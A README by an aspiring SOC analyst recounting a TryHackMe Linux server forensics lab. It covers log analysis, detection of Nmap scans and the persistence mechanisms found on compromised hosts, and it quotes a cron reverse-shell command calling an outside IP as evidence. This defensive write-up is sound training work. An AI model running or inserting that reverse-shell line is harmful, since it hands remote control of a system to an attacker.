

# -Darwin-SOC-Linux-Server-Forensics-Lab

Hands-on Linux server forensics lab covering Apache log analysis, Nmap detection, web upload investigation, cron reverse-shell persistence, unauthorized root accounts, SSH key persistence, Bash history analysis, and malicious systemd service detection.

## Skills Demonstrated

- Linux Server Forensics
- SOC Investigation
- Incident Response
- Apache Log Analysis
- Threat Hunting
- Web Server Investigation
- IOC Analysis
- Nmap Activity Detection
- Cron Persistence Detection
- Reverse Shell Detection
- User Account Investigation
- Privilege Escalation Analysis
- SSH Key Persistence Analysis
- Bash History Analysis
- systemd Persistence Analysis
- Security Documentation

## Tools & Technologies

- Linux
- Ubuntu
- SSH
- Bash
- Apache
- Nmap Indicators
- grep
- find
- systemctl
- /etc/passwd
- /etc/crontab
- .bash_history
- authorized_keys
- TryHackMe AttackBox

## Investigation Walkthrough

### 1. Linux Server Forensics Room Setup

Started the TryHackMe Linux Server Forensics room and prepared the forensic investigation environment.

### 2. Target and SSH Credentials

Identified the compromised ACME Web Design Linux server and reviewed the provided SSH credentials before beginning host-based analysis.

### 3. Successful SSH Login

Successfully connected to the compromised Linux server using SSH.

Command used:

ssh fred@TARGET_IP

This provided command-line access to begin the forensic investigation.

### 4. Apache Log Directory Review

Navigated to the Apache log directory and reviewed the available web server logs.

Commands used:

cd /var/log/apache2

ls -lah

Important forensic artifacts included:

- access.log
- access.log.1
- error.log
- error.log.1
- other_vhosts_access.log

### 5. Suspicious Tool Detection

Searched Apache logs for indicators associated with common reconnaissance and enumeration tools.

Command used:

grep -aEi "nmap|sqlmap|dirbuster|nikto" access.log access.log.1

The investigation identified automated reconnaissance activity against the web server.

### 6. Nmap Activity Identified

Reviewed Apache access logs and identified requests generated by the Nmap Scripting Engine.

The activity demonstrated automated probing of the exposed web service.

### 7. Apache Log Analysis Verified

The Apache investigation confirmed that multiple scanning tools interacted with the server.

One path associated with Nmap activity was identified as:

/nmaplowercheck1618912425

### 8. Web Server Log Review

Reviewed Apache requests for suspicious POST activity and potential file uploads.

Key findings included:

- Upload page: contact.php
- Suspicious source IP: 192.168.56.24

The activity was correlated with suspicious interaction against the web application.

### 9. Web Server Analysis Completed

The web server investigation confirmed:

- File upload functionality through contact.php
- Source IP 192.168.56.24
- Exposed security notice associated with Fred

### 10. Cron Reverse-Shell Persistence

Investigated Linux cron configuration for malicious scheduled activity.

A suspicious cron entry contained a reverse-shell command:

sh -i >& /dev/tcp/192.168.56.206/1234 0>&1

The command used an interactive shell to establish a connection to a remote host, providing evidence of attacker persistence.

### 11. Unauthorized Root2 Account

Reviewed /etc/passwd for suspicious privileged accounts.

Command used:

grep "root2" /etc/passwd

A suspicious account named root2 was identified with UID and GID values of 0, providing root-equivalent privileges.

The investigation also verified credentials associated with the unauthorized account.

### 12. Second Compromised VM Deployment

Deployed a second compromised Linux server to continue the forensic investigation.

This stage allowed analysis of more subtle attacker behavior and persistence techniques.

### 13. Apache Log Analysis II

Analyzed the second server's Apache logs for less obvious reconnaissance activity.

A non-standard HTTP method was identified:

GXWR

The Nmap scan activity was correlated to:

13:30:15

This demonstrated how reconnaissance can be detected through unusual request methods and timing even when obvious scanner user-agent strings are absent.

### 14. SSH Key Persistence

Reviewed SSH authorized_keys files for evidence of unauthorized persistent access.

A suspicious SSH key contained the identifier:

kali@kali

This indicated that an attacker had added an SSH public key to maintain access to the compromised Linux host.

### 15. Program Execution History

Reviewed Linux execution-history artifacts to identify attacker activity and evidence of privilege escalation.

Useful forensic artifacts included:

- .bash_history
- authentication logs
- package installation history
- systemd logs

### 16. Root Bash History Investigation

Reviewed the root account's Bash command history.

Command used:

sudo cat /root/.bash_history

The first recorded command was:

nano /etc/passwd

This provided evidence that the Linux account database had been directly modified during the compromise.

### 17. Malicious IpManager Systemd Service

Investigated active Linux services and identified IpManager.service as a suspicious systemd service.

Command used:

systemctl status IpManager.service

The service was confirmed as:

- Loaded
- Enabled
- Active and running

The service also executed a Bash script located under:

/etc/network/

This provided strong evidence that the attacker was using a systemd service as a persistence mechanism.

## Key Findings

| Finding | Evidence |
|---|---|
| Web reconnaissance | Nmap and automated enumeration activity |
| Scanner activity | Apache access log indicators |
| Suspicious HTTP behavior | Non-standard GXWR request |
| File upload functionality | contact.php |
| Suspicious source IP | 192.168.56.24 |
| Cron persistence | Reverse-shell command |
| Unauthorized privileged account | root2 with UID/GID 0 |
| SSH persistence | Unauthorized kali@kali SSH key |
| Account manipulation | Modification of /etc/passwd |
| Execution-history evidence | Root Bash history |
| Service persistence | Suspicious IpManager.service |
| Malicious script execution | Bash script under /etc/network/ |

## MITRE ATT&CK Mapping

### T1053 – Scheduled Task/Job

Cron was abused to establish scheduled persistence through a reverse-shell command.

### T1078 – Valid Accounts

An unauthorized root-equivalent account was present on the compromised system.

### T1098 – Account Manipulation

Linux account information was modified to create or maintain unauthorized privileged access.

### T1098.004 – SSH Authorized Keys

An unauthorized SSH public key was used as a persistence mechanism.

### T1059.004 – Unix Shell

Bash and shell commands were used throughout the compromise.

### T1543.002 – Systemd Service

A suspicious systemd service was identified running an associated script to maintain persistent execution.

## SOC Analyst Takeaways

- Apache access logs can expose reconnaissance and exploitation activity.
- Nmap and other enumeration tools can leave identifiable patterns in web logs.
- Unusual HTTP methods can reveal less obvious scanner activity.
- Cron jobs are important Linux persistence artifacts.
- Unexpected UID 0 accounts should be treated as high-priority security findings.
- SSH authorized_keys files should be reviewed during Linux incident response.
- Bash history can reveal attacker actions and privileged system modifications.
- systemd services should be inspected for suspicious startup behavior.
- Attackers can establish multiple persistence mechanisms on the same host.
- Linux investigations require correlation across web logs, accounts, scheduled tasks, SSH artifacts, command history, and services.

## Project Outcome

This project strengthened my hands-on experience with:

- Linux incident response
- Linux server forensics
- Host-based investigation
- Apache log analysis
- Threat hunting
- IOC identification
- Reconnaissance detection
- Persistence detection
- Reverse-shell analysis
- Privileged account investigation
- SSH key analysis
- Bash history review
- systemd service analysis
- Security incident documentation

## Conclusion

The investigation identified multiple indicators of compromise and several attacker persistence techniques across compromised Linux hosts.

By correlating Apache logs, account information, cron jobs, SSH keys, command history, and active systemd services, the investigation reconstructed important stages of attacker activity and demonstrated a structured Linux incident response workflow.

## Author

**Darwin Brown Jr.**

Aspiring Information Security Analyst / SOC Analyst

GitHub: https://github.com/browndarwin231-Tech

